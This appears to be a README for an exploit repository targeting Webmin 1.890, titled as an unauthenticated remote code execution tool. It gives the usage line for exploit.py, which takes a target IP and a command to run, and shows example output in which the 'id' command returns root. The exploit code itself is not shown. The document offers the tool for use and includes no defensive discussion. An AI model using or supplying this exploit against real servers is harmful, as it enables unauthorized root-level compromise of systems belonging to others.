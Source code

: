 # WebMin-1.890-Unauthenticated-RCE

USAGE: python3 exploit.py [TARGET IP] [COMMAND]

Example Output:
<code>python3 exploit.py 1**.2*.*.*** id</code>

&lt;h1&gt;Error - Perl execution failed&lt;/h1&gt;<br>
&lt;p&gt;Your password has expired, and a new one must be chosen.<br>
uid=0(root) gid=0(root) groups=0(root)<br>
&lt;/p&gt;


  
